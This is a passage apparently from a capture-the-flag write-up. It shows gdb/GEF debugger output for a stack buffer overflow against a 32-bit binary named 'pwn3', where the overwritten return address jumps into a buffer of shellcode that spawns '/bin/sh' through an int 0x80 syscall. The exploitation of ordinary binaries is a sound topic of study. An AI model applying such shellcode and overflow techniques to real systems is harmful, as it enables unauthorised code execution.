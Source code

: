 ```bash
   0x64fab5e2 <echo+0045>      ret
   0x64fab5e3 <main+0000>      lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped 0x64fab5da in echo (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x64fab5da → echo()
[#1] 0xffd9527e → push 0x68
────────────────────────────────────────────────────────────────────────────────
gef➤  info frame
Stack level 0, frame at 0xffd953b0:
 eip = 0x64fab5da in echo; saved eip = 0xffd9527e
 called by frame at 0x4242424a
 Arglist at 0xffd953a8, args:
 Locals at 0xffd953a8, Previous frame's sp is 0xffd953b0
 Saved registers:
  ebx at 0xffd953a4, ebp at 0xffd953a8, eip at 0xffd953ac
```

As expected ebp has the 4 B's (0x42), and ebp+0x4 (the return address) is pointing the start of our buffer.

```bash
gef➤  x/a $ebp
0xffd953a8:	0x42424242
gef➤  x/a $ebp+4
0xffd953ac:	0xffd9527e
```

If we continue stepping through the program in gdb we can see the execution moves to the start of our buffer. Following the flow of execution for the shellcode, we can see the intstruction `int 80` will be called with the string `/bin/sh`: 

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffd9527e  →  0x2f68686a ("jhh/"?)
$ebx   : 0xffd953a4  →  "/bin///sh"
$ecx   : 0xffd95398  →  0xffd953a0  →  0x00006873 ("sh"?)
$edx   : 0x0
$esp   : 0xffd95394  →  0x0000000b ("
                                     "?)
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0xffd95484  →  0xffd9640b  →  "./pwn3"
$edi   : 0xf0a0bb80  →  0x00000000
$eip   : 0xffd952a7  →  0x4180cd58
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────────── stack ────
0xffd95394│+0x0000: 0x0000000b ("
                                 "?)	 ← $esp
0xffd95398│+0x0004: 0xffd953a0  →  0x00006873 ("sh"?)
0xffd9539c│+0x0008: 0x00000000
0xffd953a0│+0x000c: 0x00006873 ("sh"?)
0xffd953a4│+0x0010: "/bin///sh"
0xffd953a8│+0x0014: "///sh"
0xffd953ac│+0x0018: 0x00000068 ("h"?)
0xffd953b0│+0x001c: 0xffd95300  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0xffd952a1                  mov    ecx, esp
   0xffd952a3                  xor    edx, edx
   0xffd952a5                  push   0xb
 → 0xffd952a7                  pop    eax
   0xffd952a8                  int    0x80
   0xffd952aa                  inc    ecx
```
